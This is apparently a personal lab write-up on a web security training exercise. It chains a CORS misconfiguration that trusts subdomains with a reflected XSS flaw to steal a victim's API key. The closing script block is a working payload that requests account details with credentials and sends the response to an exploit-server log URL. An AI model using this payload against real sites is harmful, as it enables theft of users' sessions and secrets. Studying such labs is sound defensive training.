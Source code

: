 # Approach

Describe your methodology, steps, and strategy for Cross-Origin Resource Sharing here.


What is CORS (cross-origin resource sharing)?
Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

`GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...`

It then responds with:

`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...`

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Look for CORS Vuln
- Login to the lab with provided
- View the UI response of the My Accounts page, note the api key
- Add Origin: https://subdomain.vulnerable-website.com to the request to GET /accountDetails
- Note Access-Control-Allow-Credentials: true in response with the api keys
- Its not enough to see this vulnerability, we need to deliver the payload somehow

Look for XSS
- Observe that the product check stock is loaded with a subdomain
	- https://0a9200cf0461bfb180fa030500ac009f.web-security-academy.net/product?productId=3
	* https://stock.0a9200cf0461bfb180fa030500ac009f.web-security-academy.net/?productId=3&storeId=1
* Test the params productId and storeId for XSS
* productId is vulnerable to XSS
	* https://stock.0a9200cf0461bfb180fa030500ac009f.web-security-academy.net/?productId=3%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
* Draft a script payload that uses the CORS vuln and XSS vuln payload
* Struggle with the encoding 
* Validate on self by storing exploit and viewing exploit in the burp browser
* Deliver exploit to user from exploit server

```
<script>

document.location="http://stock.0a9200cf0461bfb180fa030500ac009f.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a9200cf0461bfb180fa030500ac009f.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a4800b2040dbf6e80be022201890015.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"

</script>
```

![[Pasted image 20250829132557.png]]

![[Pasted image 20250829132520.png]]

![[Pasted image 20250829141017.png]]
![[Pasted image 20250829141315.png]]